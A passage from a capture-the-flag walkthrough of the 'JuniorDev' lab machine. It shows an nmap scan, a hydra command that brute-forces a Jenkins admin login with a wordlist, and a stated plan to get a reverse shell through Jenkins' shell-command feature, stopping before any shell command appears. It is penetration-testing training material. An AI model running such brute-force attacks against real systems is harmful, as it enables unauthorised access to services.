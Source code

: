 # JuniorDev!
## @Author : M3tr1c_r00t
![image](https://user-images.githubusercontent.com/99975622/210865706-53f990ea-657f-4e80-a31e-3280c0d314f0.png)
**_Junior Dev_** is a medium linux machine which involves bruteforcing into Jenkins to gain access, then involves port forwarding to gain acess to a python web server being run as root and exploit it to gain root priviledges!

### Enumeration...
_**Nmap...**_
```
# Nmap 7.92 scan initiated Sat Dec 24 19:47:32 2022 as: nmap -sC -sV -A -p 22,30609 -oN nmapports.txt 10.150.150.38
Nmap scan report for 10.150.150.38
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 64:63:02:cb:00:44:4a:0f:95:1a:34:8d:4e:60:38:1c (RSA)
|   256 0a:6e:10:95:de:3d:6d:4b:98:5f:f0:cf:cb:f5:79:9e (ECDSA)
|_  256 08:04:04:08:51:d2:b4:a4:03:bb:02:71:2f:66:09:69 (ED25519)
30609/tcp open  http    Jetty 9.4.27.v20200227
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.27.v20200227)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   227.63 ms 10.66.66.1
2   227.66 ms 10.150.150.38

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 24 19:47:58 2022 -- 1 IP address (1 host up) scanned in 26.91 seconds
```
With only two ports open, we can go and take a look at the web server at _**port 30609**_ ...
![Screenshot from 2022-12-25 07-54-20](https://user-images.githubusercontent.com/99975622/210867918-460e5821-585f-485d-a4ce-fd9b94f36800.png)

The next thing we can do, try to brute force the login page as the box's name is junior dev, so probably there's some kind of misconfiguration.
<br> Also, jenkins doesnt have a default password but has a default username, so we are gonna brute force the login using hydra ...

![Screenshot from 2022-12-25 08-24-21](https://user-images.githubusercontent.com/99975622/210868426-7a4113b1-db9f-4299-bcb1-631608935874.png)

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError"
```
Now that we have the creds, let login into the site...
![Screenshot from 2022-12-25 08-25-11](https://user-images.githubusercontent.com/99975622/210868917-d86374ea-b80e-4b0f-badd-c56528718f4c.png)

Next step after login, we can try and look for a way to get a reverse shell onto the server...
You will notice that there is a section for actions and in those actions, there is a section for executing shell commands...
![Screenshot from 2022-12-25 08-25-34](https://user-images.githubusercontent.com/99975622/210869289-3269328f-1ca2-4239-90e5-26eb2034c1c6.png)









